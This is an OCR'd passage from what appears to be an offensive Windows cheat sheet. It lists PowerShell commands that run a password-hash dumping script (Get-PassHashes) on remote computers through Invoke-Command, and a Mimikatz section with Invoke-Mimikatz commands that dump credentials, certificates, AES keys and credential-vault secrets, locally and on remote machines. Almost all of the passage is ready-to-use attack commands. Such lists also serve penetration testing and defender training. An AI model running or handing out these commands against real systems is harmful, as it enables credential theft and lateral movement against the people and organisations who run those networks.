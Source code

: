 - Execute scripts from files on a remote computer

```
PS C:\> Invoke-Command -FilePath C:\Scripts\Get-PassHashes.ps1 -ComputerName <computer name>
PS C:\> Invoke-Command -FilePath C:\Scripts\Get-PassHashes.ps1 -ComputerName (Get-Content <server-list.txt>)        # Run a command on multiple systems
PS C:\> Invoke-Command -FilePath C:\Scripts\Get-PassHashes.ps1 -Session $sess        # Import a script into a session
```
- Execute locally loaded functions on a remote computer

```
PS C:\> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName <computer name>
PS C:\> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <server-list.txt>)        # Run a command on multiple system
PS C:\> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -ComputerName (Get-Content <server-list.txt>) -ArgumentList        # To pass arguments. Only positional arguments can be passed this way
PS C:\> Invoke-Command -ScriptBlock ${function:Get-PassHashes} -Session $sess        # Import a locally loaded function into a session
```

- Execute stateful commands on a remote computer

```
PS C:\> $sess = New-PSSession -ComputerName <computer name>
PS C:\> Invoke-Command -Session $sess -ScriptBlock {$proc = Get-Process}
PS C:\> Invoke-Command -Session $sess -ScriptBlock {$proc.Name}
```

### Mimikatz

- Dump credentials on a local machine (needs administrative privileges)

```
PS C:\> Invoke-Mimikatz -DumpCreds
```

- Dump certificates on a local machine (needs administrative privileges)

```
PS C:\> Invoke-Mimikatz -DumpCerts
```

- Dump credentials on multiple remote machines (needs administrative privileges)

```
PS C:\> Invoke-Mimikatz -DumpCreds -ComputerName @("sys1","sys2")
```

- Dump AES keys (needs administrative privileges)

```
PS C:\> Invoke-Mimikatz -Command '"sekurlsa::ekeys"'
```

- Dump credentials from the credentials vault e.g. scheduled task credentials (needs administrative privileges)

```
PS C:\> Invoke-Mimikatz -Command '"token::elevate" "vault::cred /patch"'
```
